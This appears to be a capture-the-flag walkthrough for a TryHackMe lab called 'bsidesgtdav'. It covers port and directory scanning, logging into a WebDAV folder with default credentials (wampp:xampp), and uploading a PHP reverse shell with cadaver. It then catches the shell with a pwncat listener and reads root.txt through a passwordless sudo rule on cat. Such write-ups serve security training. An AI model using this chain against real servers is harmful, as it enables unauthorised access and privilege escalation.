 ```yaml
---

title: Walkthrough - Dav
published: true
---
```


Tags: Security.
Description: Boot2root machine for FIT and bsides guatemala CTF.
Difficulty: Easy

[bsidesgtdav](https://tryhackme.com/room/bsidesgtdav)

* * *

## Notes

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), Linux 5.4 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Android 5.1 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
```

- `gobuster dir -u http://10.10.59.127/ -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -t 100 -x txt,html,php`

Running gobuster finds us a `/webdav` directory. It's a protected folder however. WebDAV is a protocol that provides a framework for users to manipulate documents on a server, such as creating or moving or changing them. 

Find default credentials through google wampp:xampp

Loggin in we get the contents of the directory.

We can use `cadaver` on kali to upload a shell

```
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/bsidesgtdav]
└─$ cadaver http://10.10.112.23/webdav/ 
Authentication required for webdav on server `10.10.112.23':
Username: wampp
Password: 
dav:/webdav/> put ~/scripts/php-reverse-shell.php
Uploading ~/scripts/php-reverse-shell.php to `/webdav/php-reverse-shell.php': Could not open file: No such file or directory
dav:/webdav/> put /home/oskar/scripts/php-reverse-shell.php
Uploading /home/oskar/scripts/php-reverse-shell.php to `/webdav/php-reverse-shell.php':
Progress: [=============================>] 100.0% of 2585 bytes succeeded.
```

- setup pwncat listener and recieve shell `pwncat-cs -lp 6666`

* * * 

## What is the content of user.txt?

![](/assets/bsidesgtdav01.png)

* * * 

## What is the content of root.txt?

```
(remote) www-data@ubuntu:/home/merlin$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
(remote) www-data@ubuntu:/home/merlin$ sudo cat /root/root.txt
```

* * * 

